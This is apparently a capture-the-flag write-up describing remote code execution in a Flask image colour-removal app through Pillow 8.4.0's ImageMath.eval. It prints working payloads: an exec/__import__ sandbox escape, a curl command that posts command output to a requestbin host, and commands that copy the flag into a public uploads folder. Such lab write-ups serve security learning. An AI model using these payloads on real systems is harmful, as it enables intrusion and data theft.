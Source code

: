 ## Skill: Python command injection RCE, Context Escaping

I did not have previous experience with Flask, but this challenge is not that difficult.

The web application is an image color remover, taking a specified color and converting it to transparency.

Only one dependency, Pillow, has the version specified (8.4.0). That is definitely [sus](https://security.snyk.io/vuln/SNYK-PYTHON-PILLOW-2331901).
![image](https://user-images.githubusercontent.com/26480299/169521629-aee84185-c1d1-4ef6-b8af-9691a1d216aa.png)

We do have ImageMath.eval in the source code and we can throw in some payloads to the colors, which are used *directly without being parsed as integers*. (I used [Burp](https://portswigger.net/burp), which I learnt from "[TryHackMe](https://tryhackme.com/) Christmas" for this)

`os.system('ls -l | curl -X POST --data-binary @- https://requestbin.io/********')`
> name 'os' is not defined

It seemed like I could only use standard library and the specified variables, and I definitely cannot use a simple `import os` within the bracket context. It turns out that:
- we can use `exec(command)` to escape the bracket context (as suggested in the Snyk report)
- there's an inline version of import `__import__`
Both commands are available in the standard library.

So I tried:
`exec('__import__("os").system("ls -l | curl -X POST --data-binary @- https://requestbin.io/*********")')`

My domain did't catch it, perhaps the server can't make arbitrary web requests? I have to find other ways to leak the info as the RCE is most likely what I needed.

Since with RCE we can do virtually whatever we want, we can make files in the static folder, which can definitely be accessed. Here's how I approached it inside my docker container:

```
"exec('__import__(\"os\").system(\"touch pwn.txt\")')"
"exec('__import__(\"os\").system(\"pwd > pwn.txt\")')"
"exec('__import__(\"os\").system(\"pwd > application/static/uploads/pwn.txt\")')"
"exec('__import__(\"os\").system(\"ls > application/static/uploads/pwn.txt\")')"
"exec('__import__(\"os\").system(\"cat ../flag.txt > application/static/uploads/pwn.txt\")')"
```

**Flag: HTB{i_slept_my_way_to_rce}**

Remark: escaping characters in Burp was a pain.
